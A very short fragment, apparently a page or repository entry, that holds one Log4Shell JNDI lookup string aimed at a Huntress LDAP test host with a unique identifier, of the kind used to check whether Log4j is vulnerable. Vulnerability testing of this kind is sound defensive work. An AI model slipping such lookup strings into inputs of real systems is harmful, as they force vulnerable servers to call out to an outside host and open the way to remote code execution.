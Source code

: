 # -jndi-ldap-log4shell.huntress.com-1389-8e9445fe-7d10-452f-a00f-ce0ee01838c7-
${jndi:ldap://log4shell.huntress.com:1389/8e9445fe-7d10-452f-a00f-ce0ee01838c7}
